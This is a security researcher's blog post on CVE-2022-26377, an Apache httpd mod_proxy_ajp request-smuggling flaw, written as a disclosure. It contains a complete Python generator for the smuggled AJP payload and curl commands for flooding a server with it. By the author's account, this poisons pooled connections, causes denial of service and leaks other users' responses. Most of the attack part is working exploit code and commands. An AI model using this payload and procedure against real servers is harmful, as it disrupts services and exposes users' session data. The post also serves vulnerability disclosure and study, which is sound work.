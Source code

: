```yaml
---
layout: post
title:  "CVE-2022-26377 Apache httpd AJP request smuggling - a proof of concept payload generator"
datetime: 2023-01-20 00:05:00 MET
last_modified_at: 2023-02-15 15:13:00 MET
author: 'psytester'
---
```


While searching for a HTTP request smuggling possibility in my [security exploration of Entersekt Transakt secure gateway](https://psytester.github.io/Entersekt_transakt_security_anylysis/) which is HAproxy 1.5 based, I saw the [CVE-2022-26377](https://www.cve.org/CVERecord?id=CVE-2022-26377) Apache httpd mod_proxy_ajp request smuggling.<br>
Hmm, I have such project setup for another component...<br>
Searching for the reporter I found his blog. Thanks to DeepL or Google translate, the chinese page is readable for the rest of the world.<br>
I created a payload generator based on allyshka ‘s script for [CVE-2020-1938 Ghostcat](https://gist.github.com/allyshka) - Apache Tomcat AJP vulnerability and BINGO it’s working.<br>
In our special case I could create a Denial of Service on-top.

I wrote Apache httpd team:
```
In my project setup I was able to do a Denial of Service follow-up issue.
If one send a lot of POST requests with request smuggling that are sure
to fail due to a missing or wrong ajp secret, because my Tomcat has set a secret,
one is poisoning the Tomcat connection handler with http 403 responses.

I get random responses in my curl post requests, that look like a context
of the actual real connections of real users and vice versa the real browser user sessions
get my HTTP 403 or some code snippets or incomplete web pages.
Due to the nature of our application an user is kicked out, if a http error code is received.
I successfully did a DoS at our application.

The connections have not healed themselves.
At the end of my tests I had to restart httpd and tomcat to get it working again in normal operation mode.

1. Generate the payload:
     python3 CVE-2022-26377_generate_ajp_payload.py --target_req_uri /some_get_uri
--secret ajp_wrong_secret_not_configured_in_server_xml | xxd -r -p >
payload.data
or just without any secret:
     python3 CVE-2022-26377_generate_ajp_payload.py --target_req_uri /some_get_uri |
xxd -r -p > payload.data

2. in browser use the website as usual as normal user

3. Do a lot of this curl calls to poison the connections:
curl --insecure -i https://vulnerable-tls-endpoint/post_uri -H
'Transfer-Encoding: chunked, chunked' --data-binary @payload.data

4. curl and browser get stuck
```
Apache httpd project response was:
```
Hi all, thanks for looping us in, but I don't see anything unexpected here.

Without the fix for a known request smuggling vulnerability, requests
can be smuggled through mod_proxy_ajp.  The responses to the smuggled
requests will be available to connections sitting pooled connections
on the proxy server.

If there is some specific unreported shortcoming in httpd that an
attacker can influence, please share a more complete description that
doesn't depend on prior vulnerabilities being unresolved.
```

Current Tomcat versions do not longer allow any AJP attribute, thus I used a harmless one and put some dummy value as filler.<br>
My payload generator for CVE-2022-26377
```
# Inspired by ajp-packet.py script @ https://gist.github.com/allyshka 
# for CVE-2020-1938 Ghostcat - Apache Tomcat AJP File Read/Inclusion Vulnerability
# -->
# The payload for CVE-2022-26377 HTTP Request Smuggling in ajp_proxy of Apache webserver
# can be build with this modified script

import struct
import argparse
from urllib.parse import urlparse

def pack_string(s):
    if s is None:
        return struct.pack(">h", -1)
    l = len(s)
    return struct.pack(">H%dsb" % l, l, s.encode('utf8'), 0)


parser = argparse.ArgumentParser(description='Payload generator for CVE-2022-26377 HTTP Request Smuggling in ajp_proxy of Apache webserver, based on allyshka script for CVE-2020-1938 Ghostcat')
parser.add_argument('--target_req_uri', help='spoof internal uri for HTTP GET request smuggeling', required=False, default="/index.html")
parser.add_argument('--target_port', help='internal port for HTTP GET request smuggeling', required=False, default=8080)
parser.add_argument('--remote_addr', help='spoof remote address for HTTP GET request smuggeling', required=False, default="127.0.0.1")
parser.add_argument('--secret', help='ajp secret for HTTP GET request smuggeling', required=False)

arg_target_req_uri = parser.parse_args().target_req_uri
arg_target_port = int(parser.parse_args().target_port)
arg_remote_addr = parser.parse_args().remote_addr
arg_secret = parser.parse_args().secret

# payload for CVE-2022-26377 Request Smuggling does not need complete AJP structure !
# complete AJP structure
#magic = 0x1234						# GET - but not used here
#prefix_code = struct.pack("b", 2) 	# forward request - but not used here
#method = struct.pack("b", 2) 		# GET - but not used here
protocol = pack_string("HTTP/1.1")
req_uri = pack_string(arg_target_req_uri)			# change it to tomcat internal url
remote_addr = pack_string(arg_remote_addr)			# change it
remote_host = pack_string(None)
server_name = pack_string(None)
server_port = struct.pack(">h", arg_target_port)	# change it
is_ssl = struct.pack("?", False)
num_headers = struct.pack(">h", 0)
# The final payload need to be exactly 514 bytes
# thus we us an attribute and put some dummy value as filler
# we start at filler with 1 byte and recalculate depending on changed values above
attributes = {'javax.servlet.request.cipher_suite': 'a' * 1}
end = struct.pack("B", 0xff)

# not used: data = prefix_code
# not used: data = method
data = protocol
data += req_uri
data += remote_addr
data += remote_host
data += server_name
data += server_port
data += is_ssl
data += num_headers
# generate attrs
if arg_secret is not None:
	attr_code_secret = struct.pack("b", 0x0c) # SECRET
	data += attr_code_secret
	data += pack_string(arg_secret)

attr_code = struct.pack("b", 0x0a) # SC_A_REQ_ATTRIBUTE
for n, v in attributes.items():
    data += attr_code
    data += pack_string(n)
    data += pack_string(v)


data += end # packet terminator byte 0xff

# depending on req_uri, remote_addr, etc. the attribute filler is adjusted
# print(f"payload length: {len(data)}")
current_len = len(data)
# calculate the final filler length
final_len = 514 - current_len + 1


attributes_final = {'javax.servlet.request.cipher_suite': 'a' * final_len}

data = protocol
data += req_uri
data += remote_addr
data += remote_host
data += server_name
data += server_port
data += is_ssl
data += num_headers
# generate attrs
if arg_secret is not None:
	attr_code_secret = struct.pack("b", 0x0c) # SECRET
	data += attr_code_secret
	data += pack_string(arg_secret)

attr_code = struct.pack("b", 0x0a) # SC_A_REQ_ATTRIBUTE
for n, v in attributes_final.items():
    data += attr_code
    data += pack_string(n)
    data += pack_string(v)

data += end # packet terminator byte 0xff

# depending on req_uri, remote_addr, etc. the attribute filler is adjusted
# print(f"payload length: {len(data)}")
current_len = len(data)


# not used: header = struct.pack(">hH", magic, len(data))
# not used: ajp_request = header + data

# For CVE-2022-26377 AJP Request Smuggeling we do not need the header, only some data
ajp_request = data

# The final payload need to be exactly 514 bytes
print(ajp_request.hex())
```

It was end of October, beginning November 2022, a fresh RHEL 8.6 update had been performed. It was not clear to me if backporting & cherry picking was already done by Redhat.<br>
It just still took for Redhat until 08 November, 5 months since the disclosure.<br>
[https://access.redhat.com/security/cve/CVE-2022-26377](https://access.redhat.com/security/cve/CVE-2022-26377)

Today 19. Januar 2023. Is the patching problem repeating itself?<br>
Newest [CVE-2022-37436](https://www.cve.org/CVERecord?id=CVE-2022-37436) is out since 17. Januar and we will see when Redhat will release the fix @ [https://access.redhat.com/security/cve/CVE-2022-37436](https://access.redhat.com/security/cve/CVE-2022-37436)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2023 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
